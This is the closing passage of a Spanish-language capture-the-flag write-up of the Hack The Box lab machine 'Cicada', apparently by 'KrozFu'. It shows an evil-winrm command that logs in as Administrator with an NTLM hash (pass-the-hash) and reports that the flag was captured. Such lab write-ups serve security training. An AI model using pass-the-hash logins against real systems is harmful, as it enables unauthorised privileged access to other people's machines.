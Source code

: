 ```ruby
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

Se ha logrado acceder a la maquina con el usuario `Administrator`, obteniendo los altos privilegios sobre la maquina, utilizando la técnica de `pass-the-hash`.

![img](./img/cicada/img22.png)

La **flag** al finalizar la escalación de privilegios.

![img](./img/cicada/img23.png)

**Finalización de la maquina Cicada por `KrozFu`**
